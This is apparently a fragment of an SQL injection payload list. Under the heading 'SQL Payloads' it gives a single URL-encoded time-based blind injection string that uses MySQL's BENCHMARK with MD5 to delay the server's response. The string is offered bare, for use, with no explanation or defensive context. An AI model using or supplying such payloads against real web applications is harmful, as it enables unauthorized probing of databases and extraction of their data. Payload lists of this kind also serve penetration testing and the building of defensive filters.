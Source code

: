 # SQL Payloads


```
%22)%20AND%201337%3dBENCHMARK(5000000,MD5(0x774c5341))%20AND%20(%221337%22%20LIKE%20%221337
```

